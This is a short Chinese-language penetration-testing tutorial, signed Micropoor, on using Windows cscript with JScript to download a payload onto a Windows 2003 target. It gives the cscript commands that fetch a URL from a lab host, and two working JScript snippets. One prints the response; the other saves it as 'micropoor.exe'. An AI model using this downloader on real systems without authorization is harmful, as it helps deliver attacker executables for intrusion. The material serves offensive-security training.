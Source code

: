 windows 全版本都会默认支持 js，并且通过cscript 来调用达到下载 payload 的目的。

**靶机：**windows 2003  

### 读取：
```bash
C:\test>cscript /nologo downfile.js http://192.168.1.115/robots.txt
```  
![](/img/ac794b7eb3758d954dbf95912895dd41.jpg)

### 附代码：
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
WScript.Echo(WinHttpReq.ResponseText);
```
### 写入：
```bash
C:\test>cscript /nologo dowfile2.js http://192.168.1.115/robots.txt
```

![](/img/21081f49afc31e94235293e3337967b7.jpg)

### 附代码：
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();

BinStream = new ActiveXObject("ADODB.Stream"); BinStream.Type = 1;

BinStream.Open(); BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile("micropoor.exe");
```

>后者的话：简单，易用，轻便。
>
>   Micropoor
